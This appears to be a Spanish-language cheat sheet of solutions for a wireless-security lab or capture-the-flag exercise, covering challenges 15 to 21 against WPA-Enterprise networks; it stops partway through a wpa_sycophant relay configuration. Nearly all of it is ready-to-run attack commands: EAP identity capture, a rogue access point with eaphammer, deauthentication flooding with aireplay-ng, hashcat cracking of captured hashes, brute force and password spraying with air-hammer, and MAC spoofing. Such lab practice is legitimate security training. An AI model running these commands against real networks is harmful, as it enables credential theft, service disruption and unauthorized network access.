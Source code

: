 ## 15. Dominio de usuarios wifi-regional
```bash
airodump-ng wlan0mon -w ~/wifi/scanc44 -c 44 --wps
wireshark ~/wifi/scanc44-01.cap
# Filtrar por: eap && eap.identity
```

## 16. Email del certificado del servidor
```bash
cd /root/tools/
bash pcapFilter.sh -f ~/wifi/scanc44-02.cap -C
# O usar Wireshark con filtro: (wlan.sa == BSSID) && (tls.handshake.certificate)
```

## 17. Método EAP soportado por wifi-global
```bash
cd /root/tools/EAP_buster/
bash ./EAP_buster.sh wifi-global 'GLOBAL\GlobalAdmin' wlan1
```

## 18. Contraseña de juan en wifi-corp (RogueAP)
```bash
cd /root/tools/eaphammer
python3 ./eaphammer --cert-wizard
python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced

# Deauth paralelo
iwconfig wlan0mon channel 44
aireplay-ng -0 0 -a AP_BSSID wlan0mon -c CLIENT_MAC

cat logs/hostapd-eaphammer.log | grep hashcat | awk '{print $3}' >> hashcat.5500
hashcat -a 0 -m 5500 hashcat.5500 ~/rockyou-top100000.txt --force
```

## 19. Contraseña CONTOSO\test (Brute Force)
```bash
cd ~/tools/air-hammer
echo 'CONTOSO\test' > test.user
./air-hammer.py -i wlan3 -e wifi-corp -p ~/rockyou-top100000.txt -u test.user
```

## 20. Usuario con contraseña 12345678 (Password Spray)
```bash
cat ~/top-usernames-shortlist.txt | awk '{print "CONTOSO\\" $1}' > ~/top-usernames-shortlist-contoso.txt
cd ~/tools/air-hammer
./air-hammer.py -i wlan4 -e wifi-corp -P 12345678 -u ~/top-usernames-shortlist-contoso.txt
```

## 21. Flag en wifi-regional-tablets (Relay Attack)
```bash
systemctl stop network-manager
airmon-ng stop wlan1mon
ip link set wlan1 down
macchanger -m F0:9F:C2:00:00:00 wlan1
ip link set wlan1 up

# wpa_sycophant_example.conf
network={
  ssid="wifi-regional-tablets"
  scan_ssid=1
```